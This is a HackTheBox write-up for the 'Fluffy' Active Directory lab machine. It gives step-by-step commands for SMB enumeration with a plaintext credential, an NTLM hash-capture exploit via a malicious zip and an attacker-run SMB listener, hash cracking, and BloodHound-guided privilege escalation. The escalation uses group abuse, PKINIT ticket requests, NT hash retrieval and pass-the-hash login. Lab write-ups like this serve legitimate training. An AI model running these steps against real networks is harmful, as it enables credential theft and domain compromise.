 Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


```
smbmap -H 10.129.186.239 -u j.fleischman -p J0elTHEM4n1990!

smbclient //10.129.186.239/IT -U 'j.fleischman'

mget *
```

On SMB, we see that we have write permission for the IT share, and we find a PDF with vulnerabilities.

Now that we have the list of vulnerabilities, let's move on to exploits.


To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share.
      `put evil.zip`

4. You should ses username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Now we have a new username and password. You might try evil-winrm, but the user does not have permission. So, let's enumerate more. Create a BloodHound file and upload to bloodhound review.
      `sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>`


Observations

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`


```bash
faketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache


### Set the Kerberos ticket environment variable:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash

```bash 
faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT> ``` </pre>

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`



